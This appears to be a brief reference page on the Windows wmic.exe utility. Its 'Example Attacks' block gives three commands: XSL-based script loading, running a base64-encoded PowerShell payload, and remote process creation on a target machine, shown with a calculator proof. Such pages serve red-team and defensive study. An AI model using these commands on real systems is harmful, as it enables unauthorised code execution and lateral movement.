 # wmic.exe
## What is it?
*wmic.exe is a command-line utility for interacting with Windows Management Instrumentation (WMI).*

## Example Attacks
```
wmic os get /FORMAT:"file.xsl"

wmic process call create "powershell -enc <base64_payload>"

wmic /node:"targetPC" process call create "cmd.exe /c calc.exe"
```
*Calculator is spawned by svchost.exe:*

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)
